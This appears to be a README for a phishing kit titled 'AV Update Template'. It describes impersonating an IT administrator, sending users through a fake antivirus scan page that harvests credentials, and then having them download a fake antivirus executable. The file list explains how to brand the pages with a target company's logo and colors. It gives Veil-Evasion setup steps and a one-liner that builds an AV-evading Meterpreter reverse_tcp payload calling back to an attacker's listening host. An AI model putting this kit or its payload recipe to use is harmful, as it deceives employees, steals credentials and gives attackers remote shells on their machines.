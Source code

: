 
# AV Update Template

**Objective:** Credential harvesting *and* shell

## Pretext:
Spoofing as an IT administrator, you're pushing out new antivirus software and need users to help run an automated scan to see if the new software was pushed to their computer and is up-to-date. After the scan page reaches around 70%, the page redirects and notifies the user that they need to download and run a file becuase their AV is out of date.

## Things you'll need to change:
* File: ./login: 
  * name="logo" -> update to the company logo
  * Store company logo in the images folder. name it logo.png

* File: ./scan: 
  * name="logo" -> update to company logo

* File: /include/style-login-new.css
  * footer#bottom -> update the background:# to the spoofed company color if wanted. 
  * header -> update background-color:# to spoofed company color if wanted.
* File: PartnerPlus_Antivirus_v3.5.3.exe
  * Create your own executable file. MSFVenom gets popped by AV, so use Veil if possible. Instructions are below.

## Creating your own Executable using Veil Framework:
1. Setting up Veil-Evasion 
  a. git clone git@github.com:Veil-Framework/Veil-Evasion.git
  b. cd veil-Evasion
  c. ./setup/setup.sh -s
2. Creating a payload
  a. you can use the step-by-step instructions found in step 2.b. or modify and use the one-liner below
    * # ./Veil-Evasion.py  -l  python -p python/b64_substitution  -o trytofindthis –msfpayload windows/meterpreter/reverse_tcp –msfoptions LHOST=<listening box> LPORT=443
  b. tutorial: https://sathisharthars.wordpress.com/2014/06/07/evading-antivirus-using-veil-framework-in-kali-linux/
3. **MAKE SURE YOU NAME IT** PartnerPlus_Antivirus_v3.5.3.exe or you'll have to edit the 'failed' page.
